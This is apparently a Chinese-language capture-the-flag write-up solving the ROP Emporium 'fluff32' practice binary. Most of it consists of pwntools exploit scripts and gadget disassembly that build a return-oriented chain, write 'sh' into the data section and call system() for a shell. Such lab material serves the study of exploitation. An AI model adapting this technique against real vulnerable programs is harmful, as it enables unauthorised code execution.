
data 段可以，地址：0x0804a028
from pwn import *
context.terminal = ["tmux", "split-window", "-h"]
p = process("./fluff32")
data_section = 0x0804a028
pop_ebx_ret = 0x080483e1
pop_edi_xor_edx_edx_pop_esi_ret = 0x08048670
pop_esi_xor_edx_ebx_pop_ebp_ret = 0x0804867a
xchg_edx_ecx_pop_ebp_ret = 0x08048689
pop_edi_write_ecx_men_pop_ebp_pop_ebx_xor_ecx_bl_ret = 0x08048692
exp = "A" * 0x2c
exp += p32(pop_ebx_ret)
exp += p32(data_section)
exp += p32(pop_edi_xor_edx_edx_pop_esi_ret)
exp += "AAAA"
exp += "AAAA"
exp += p32(pop_esi_xor_edx_ebx_pop_ebp_ret)
exp += "AAAA"
exp += "AAAA"
exp += p32(xchg_edx_ecx_pop_ebp_ret)
exp += "AAAA"
gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()
gdb attach 上去看一下 ecx 的置有没有成功设置

可以看到，构造的 ROP 链成功设置了 ecx 的值为 data_section
现在 开始写 设置 ebx 的那部分 payload
现在的 edx 被污染了，需要清空，调用 xor edx,edx 就能清空 edx（自己和自己异或肯定等于 0 啊）
08048671 31 d2 XOR EDX,EDX
08048673 5e POP ESI
08048674 bd be MOV EBP,0xcafebabe
ba fe ca
08048679 c3 RET
这个可以，ok，写
from pwn import *
context.terminal = ["tmux", "split-window", "-h"]
p = process("./fluff32")
fluff32 = ELF("./fluff32")
sh = "sh\x00\x00"
system_plt = fluff32.plt["system"]
data_section = 0x0804a028
pop_ebx_ret = 0x080483e1
pop_edi_xor_edx_edx_pop_esi_ret = 0x08048670
pop_esi_xor_edx_ebx_pop_ebp_ret = 0x0804867a
xchg_edx_ecx_pop_ebp_ret = 0x08048689
pop_edi_write_ecx_men_pop_ebp_pop_ebx_xor_ecx_bl_ret = 0x08048692
xor_edx_ebx_pop_ebp_ret = 0x0804867b
exp = "A" * 0x2c
exp += p32(pop_ebx_ret)
exp += p32(data_section)
exp += p32(pop_edi_xor_edx_edx_pop_esi_ret)
exp += "AAAA"
exp += "AAAA"
exp += p32(pop_esi_xor_edx_ebx_pop_ebp_ret)
exp += "AAAA"
exp += "AAAA"
exp += p32(xchg_edx_ecx_pop_ebp_ret)
exp += "AAAA"
exp += p32(pop_ebx_ret)
exp += (sh)
exp += p32(pop_edi_xor_edx_edx_pop_esi_ret)
exp += "AAAA"
exp += "AAAA"
exp += p32(xor_edx_ebx_pop_ebp_ret)
exp += "AAAA"
exp += p32(pop_edi_write_ecx_men_pop_ebp_pop_ebx_xor_ecx_bl_ret)
exp += "AAAA"
exp += "AAAA"
exp += "\x00\x00\x00\x00"
exp += p32(system_plt)
exp += p32(0xdeadbeef)
exp += p32(data_section)
gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()
ROP 汇编：
0x804864b <pwnme+85> ret
↓
0x80483e1 <_init+33> pop ebx
0x80483e2 <_init+34> ret
↓
0x8048670 <questionableGadgets> pop edi
0x8048671 <questionableGadgets+1> xor edx, edx
0x8048673 <questionableGadgets+3> pop esi
0x8048674 <questionableGadgets+4> mov ebp, 0xcafebabe
0x8048679 <questionableGadgets+9> ret
↓
0x804867a <questionableGadgets+10> pop esi
0x804867b <questionableGadgets+11> xor edx, ebx
0x804867d <questionableGadgets+13> pop ebp
0x804867e <questionableGadgets+14> mov edi, 0xdeadbabe
0x8048683 <questionableGadgets+19> ret
↓
0x8048689 <questionableGadgets+25> xchg edx, ecx
0x804868b <questionableGadgets+27> pop ebp
0x804868c <questionableGadgets+28> mov edx, 0xdefaced0
0x8048691 <questionableGadgets+33> ret
↓
0x80483e1 <_init+33> pop ebx
0x80483e2 <_init+34> ret
↓
0x8048670 <questionableGadgets> pop edi
0x8048671 <questionableGadgets+1> xor edx, edx
0x8048673 <questionableGadgets+3> pop esi
0x8048674 <questionableGadgets+4> mov ebp, 0xcafebabe
0x8048679 <questionableGadgets+9> ret
↓
0x804867b <questionableGadgets+11> xor edx, ebx
0x804867d <questionableGadgets+13> pop ebp
0x804867e <questionableGadgets+14> mov edi, 0xdeadbabe
0x8048683 <questionableGadgets+19> ret
↓
0x8048692 <questionableGadgets+34> pop edi
0x8048693 <questionableGadgets+35> mov dword ptr [ecx], edx
0x8048693 <questionableGadgets+35> mov dword ptr [ecx], edx
0x8048695 <questionableGadgets+37> pop ebp
0x8048696 <questionableGadgets+38> pop ebx
0x8048697 <questionableGadgets+39> xor byte ptr [ecx], bl
0x8048699 <questionableGadgets+41> ret
↓
0x8048430 <system@plt> jmp dword ptr [system@got.plt] <0x804a018>
成功设置 ecx 和 edx 的值


pwn!